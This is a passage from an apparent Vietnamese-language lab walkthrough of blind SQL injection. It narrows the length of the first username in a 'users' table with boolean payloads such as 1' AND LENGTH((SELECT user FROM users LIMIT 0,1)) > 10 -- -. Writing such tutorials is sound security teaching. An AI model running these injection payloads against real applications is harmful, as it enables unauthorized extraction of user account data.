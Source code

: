       Tiếp theo ta sẽ tiến hành xác định độ dài của từng **user**.
      
      Thử với **user** đầu tiên trong table `users` nào. 

      ```
      1' AND LENGTH((SELECT user FROM users LIMIT 0,1)) > 10 -- - 
      ```
      ![](./images/18-07-51.png)
      > Từ kết quả trả về ta thấy độ dài nằm trong khoảng (1-10)

      ```
      1' AND LENGTH((SELECT user FROM users LIMIT 0,1)) > 5 -- - 
      ```
      ![](./images/18-10-08.png)
      > Từ kết quả trả về ta thấy độ dài nằm trong khoảng (1-5)

      ```
      1' AND LENGTH((SELECT user FROM users LIMIT 0,1)) > 3 -- -
      ```
      ![](./images/18-11-57.png)
      > Từ kết quả, ta thấy độ dài nằm trong khoảng (3-5)
